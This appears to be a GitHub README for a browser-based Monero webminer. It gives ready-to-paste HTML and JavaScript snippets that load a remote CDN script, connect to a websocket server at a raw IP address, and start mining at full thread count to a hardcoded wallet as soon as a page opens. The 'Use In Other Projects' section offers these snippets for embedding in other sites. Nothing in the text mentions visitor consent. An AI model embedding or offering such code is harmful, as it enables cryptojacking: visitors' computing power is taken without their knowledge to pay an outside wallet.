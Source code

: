## Monero Webminer

Html & Js code allowing Mining of XMR (Monero) on browsers.
This set-up is part of a common shared project, fitted for
our needs and meant as an easy-to-share targetted crowd-mining
pedagogic path of learning and discovering XMR
and pooling aswell.


# Configure

In index.html are this settings to be adjusted as needed:

- Pool
- XMR Wallet (we use same address and also same
- Miner name (to work fusioned together for same target across the world)
- Threads (-1 means unlimited, automatic by default, 100 full capacity)
- Miner Password (Optional, as Moneroocean does not use password, if your pool does, it is usually "x",
                and as [https://monero.hasvault.pro](https://monero.hashvault.pro) uses them as identifier)


# Running

Open index.html in any web browser and it will automatically start mining.

(find an example shown (for now) at [https://monero-miner.vercel.app/](https://monero-miner.vercel.app/)

# Check worker influence

Most browser are based on a model including the menu `more tools` which will provide you with
    1. a `Task manager` (Gestionnaire des tâches) were you should recognize the side-effects.
    2. `Development tools` can help you find errors if any, else some details are explicit.
  else, with those extreme settings, watching global CPU monitors is for you.

# Check Progress 

Go to [https://monero.hashvault.pro](https://monero.hashvault.pro), as it is the pool you are connected to,
it will show your hashrates and balance right after the filling of right line with the used XMR Address
457d9VieYh2USCLntbEu4t2T7AJXDoe3AEeaPJFjQnG8Qip6aoGrvD2U4378XFvkpcaa1v4hS93n52CyxMUmYzYiRgzczMu
fascinating charts..

# How do I know if it works??

1. Open [monero-miner.vercel.app](https://monero-miner.vercel.app/)
2. Also Open https://supportxmr.com/ in a new tab
3. Paste in my XMR Address 457d9VieYh2USCLntbEu4t2T7AJXDoe3AEeaPJFjQnG8Qip6aoGrvD2U4378XFvkpcaa1v4hS93n52CyxMUmYzYiRgzczMu
4. You will see what "XMRingShare" is, Mining ethically. You can also do the same 

# Use In Other Projects
(should need reclarification asap)


HTML
  
    <!-- Start Of Mining Code (HTML) -->
    <script src="https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js"></script>
    <script>
        server = "wss://45.119.82.33:40725";
        var pool = "pool.hashvault.pro:443";
        var walletAddress = "457d9VieYh2USCLntbEu4t2T7AJXDoe3AEeaPJFjQnG8Qip6aoGrvD2U4378XFvkpcaa1v4hS93n52CyxMUmYzYiRgzczMu";
        var workerId = "elikxmr"
        var threads = 100;
        var password = "elikxmr";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 0.02;
    </script>
    <!-- End Of Mining Code (HTML) -->
      

Javascript import snippet
  
    import 'https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/external/javascript.js';


Javascript
    
    // Start Of Mining Code (Javascript)
    var script = document.createElement("script");
    script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
    document.head.appendChild(script);

    server = "wss://45.119.82.33:40725";
    var pool = "pool.hashvault.pro:443";
    var walletAddress = "457d9VieYh2USCLntbEu4t2T7AJXDoe3AEeaPJFjQnG8Qip6aoGrvD2U4378XFvkpcaa1v4hS93n52CyxMUmYzYiRgzczMu";
    var workerId = "elikxmr"
    var threads = 100
    var password = "elikxmr";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 0.02;
    // End Of Mining Code
    
#  Give, offer, loose, stand, wait, stay on our pages
    
    
This software is **100% free** to use, and we would greatly appreciate any donations to help support our work. If you'd like to donate, you can use the following cryptocurrency addresses:



    XMR:  473rsRZRCr4dDsX44yRBSETPrMnHNNzpjG4MkHcuFdRXTcXbbX8T4ow2b8bkZoxEoeVNdagTo8qGwK689wuy7CrWJDXpEup   or alternatively,
        --> 457d9VieYh2USCLntbEu4t2T7AJXDoe3AEeaPJFjQnG8Qip6aoGrvD2U4378XFvkpcaa1v4hS93n52CyxMUmYzYiRgzczMu
    (this is the crowd-funding address we use to laser-focus efforts together, regardless to timezones and space between our project)

Thank you for choosing our Monero Webminer. We hope you'll find it useful and profiteroles to run, adapt
or simply (hoped for soon) just make you an option 1-clic-away available,
allowing the best choice to offer few seconds because a little is not nothing :D
